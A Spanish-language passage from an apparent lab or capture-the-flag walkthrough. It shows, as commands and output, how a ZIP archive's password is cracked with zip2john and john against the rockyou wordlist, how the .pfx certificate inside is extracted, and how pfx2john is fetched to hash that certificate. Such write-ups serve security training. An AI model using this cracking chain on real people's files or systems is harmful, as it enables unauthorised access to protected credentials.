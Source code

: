 En el directorio `Dev` , tenemos un archivo comprimido `winrm_backup.zip`, vamos  a tratar de crackear la contraseña con `zip2john` y `john`:

```bash
❯ zip2john winrm_backup.zip > hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: 2b chk, TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
1g 0:00:00:00 DONE (2023-07-16 19:19) 2.222g/s 7718Kp/s 7718Kc/s 7718KC/s swifer..supergay01
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Vamos a tratar de extraer el contenido del archivo:

```bash
❯ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx    
❯ ll
.rw-r--r-- root   root   4.9 KB Sun Jul 16 19:19:01 2023  hash
.rwxr-xr-x root   root   2.5 KB Mon Oct 25 09:21:20 2021  legacyy_dev_auth.pfx
.rwxr-xr-x k4miyo k4miyo 2.5 KB Thu Jul  6 20:48:48 2023  winrm_backup.zip
```

Encontramos el archivo `legacyy_dev_auth.pfx`, el cual es ***Personal Information Exchange***. Vamos a utilizar [pfx2john](https://raw.githubusercontent.com/sirrushoo/python/master/pfx2john.py) para obtener la clave del archivo:

```bash
❯ wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/pfx2john.py
--2023-07-16 20:19:34--  https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/pfx2john.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3329 (3.3K) [text/plain]
Saving to: ‘pfx2john.py’

pfx2john.py                                     100%[====================================================================================================>]   3.25K  --.-KB/s    in 0s      

2023-07-16 20:19:37 (54.4 MB/s) - ‘pfx2john.py’ saved [3329/3329]

❯ python3 pfx2john.py
Usage: pfx2john.py <.pfx file(s)>
❯ python3 pfx2john.py legacyy_dev_auth.pfx > hashed
```
